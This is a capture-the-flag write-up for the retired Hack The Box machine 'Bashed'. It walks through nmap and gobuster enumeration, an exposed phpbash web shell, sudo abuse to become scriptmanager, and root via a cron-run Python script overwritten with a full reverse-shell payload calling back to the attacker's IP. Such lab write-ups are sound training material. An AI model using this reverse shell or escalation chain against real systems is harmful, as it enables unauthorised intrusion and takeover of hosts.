

# Bashed

This is the write-up for the box Bashed that got retired at the 28th April 2018.
My IP address was 10.10.14.39 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.68    bashed.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bashed.nmap 10.10.10.68
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

## Checking HTTP (Port 80)

On the web page there is an article about a tool called **phpbash** and that it was developed on the same server.


So lets use **Gobuster** to look for hidden paths and find this tool:
```markdown
gobuster -u http://10.10.10.68 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following paths that could be interesting:
- uploads
- php
- dev

In the _/dev_ directory is the tool **phpbash.php** that starts a web shell in the browser:



Now we can start a reverse shell to our local client.

## Privilege Escalation

When looking at the root permissions of the user _www-data_ with `sudo -l`, it displays that we can run everything as _scriptmanager_ without a password:
```markdown
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can start a session as the user _scriptmanager_:
```markdown
sudo -u scriptmanager bash
```

### Privilege Escalation to root

Now we are the user _scriptmanager_ and looking at which directories are owned by this user, there is the directory _/scripts_ at the root path.
```markdown
find / -type d -group scriptmanager -user scriptmanager 2>/dev/null
```

In this directory there are two files with the following permissions and content:
```markdown
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Feb  5 10:40 test.txt
```

```markdown
# test.txt

testing 123!
```

```python
# test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The Python script writes a string into the text file which refreshes its date every minute.
As the Python script file belongs to _scriptmanager_, we can write to it and because the text file is owned by root, it is possible to exploit this by modifying the script to execute a reverse shell.
```python
# test.py

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.39",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

After waiting for one minute, the script gets executed and the listener on my IP and port 9002 starts a session as root!
